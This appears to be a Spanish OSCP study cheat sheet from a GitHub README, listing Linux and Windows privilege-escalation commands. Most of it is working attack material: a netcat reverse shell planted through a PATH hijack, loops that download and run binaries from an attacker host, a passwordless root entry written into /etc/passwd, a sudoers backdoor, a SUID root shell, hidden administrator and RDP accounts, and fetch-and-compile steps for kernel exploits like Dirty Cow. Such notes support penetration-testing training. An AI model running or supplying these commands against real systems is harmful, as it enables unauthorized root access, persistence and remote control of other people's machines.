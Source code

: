 Linux: https://github.com/pedroarias1015/oscp/blob/master/escalacion/README.md#elevacion-de-privilegios-linux
Windows: https://github.com/pedroarias1015/oscp/blob/master/escalacion/README.md#elevacion-de-privilegios-windows

# Elevacion de privilegios LINUX

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
Permisos de W    -->  find / -writable -type d 2>/dev/null
Permisos de W    -->  find / -perm -222 -type d 2>/dev/null
Permisos de W    -->  find / -perm -o w -type d 2>/dev/null    
Permisos de X    -->  find / -perm -o x -type d 2>/dev/null
Permisos de W+X  -->  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
Permisos de R    -->  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

17) Compartir carpeta RDP --> `rdesktop -u <USUARIO> -p <CONTRASEÑA> <IP> -r disk:remote_folder=<LOCAL_PATH> -g $(xrandr -q | awk '/ connected / {print $4;exit}' | awk -F "x" '{print int($1/1.05)"x"int($2/1.1)}')`


## Compilacion

18) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

19) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

20) __Exploits precompilados para Linux__ https://github.com/lucyoa/kernel-exploits  `git clone https://github.com/lucyoa/kernel-exploits.git` 

21) __CLAVE: Windows exploits precompilados__ https://github.com/SecWiki/windows-kernel-exploits

22) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

23) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

24) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

25) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

26) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

27) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

28) __CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)__ 
<pre>
wget -O 14814.c http://www.exploit-db.com/download/14814
gcc 14814.c -o can
</pre>

29) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`

# Elevacion de privilegios WINDOWS

## Reconocimiento automatico

30) Windows Exploit Sugester
<pre>
cp $OSCP/escalacion/windows-exploit-suggester.py wes.py
python wes.py -d 2017-05-27-mssb.xls -i systeminfo.txt
</pre>

## Utilidades

31) Ejecución de script en powershell sin tener que abrir una shell de powershell
<pre>
powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
</pre>

32) Añadir usuario administrador y con acceso remoto (RDP):
<pre>
net user /add <USERNAME> <PASSWORD>
net localgroup administrators <USERNAME> /add
NET LOCALGROUP "Remote Desktop Users" <USERNAME> /ADD
</pre>

33) Descargar ficheros con powershell
<pre>
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IP_ATACANTE:PUERTO/FICHERO','C:\Users\Public\FICHERO')"
</pre>

## Exploits satisfactorios

34) Windows Server 2003 and IIS 6.0 (Churrasco)
<pre>
Uso: Churrasco.exe -d "CMD COMO ADMIN"

Ejemplo (crear un usuario administrador para acceder mediante RDP):
Churrasco.exe -d "net user /add <USERNAME> <PASSWORD>"
Churrasco.exe -d "net localgroup administrators <USERNAME> /add"
Churrasco.exe -d "NET LOCALGROUP "Remote Desktop Users" <USERNAME> /ADD"
</pre>
  
35) Windows XP SP1 (upnphost)
<pre>
En primer lugar, es necesario subir el fichero nc.exe a la máquina mediante FTP por ejemplo

Ponemos a la escucha nuestra máquina: nc -nvlp <PUERTO>
sc config upnphost binpath= "C:\Inetpub\nc.exe <IP ATACANTE> <PUERTO> -e C:\WINDOWS\System32\cmd.exe" 
sc config upnphost obj= ".\LocalSystem" password= "" 
sc qc upnphost
If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto 
net start SSDPSRV
net start upnphost
</pre>

## Utilidades
36) Ejemplo escapado de caracteres en Windows --> `echo net user rady rady /add 1^> "C:\Documents and Settings\Backup\net4.log" 2^>^&1 > backup-python.cmd`
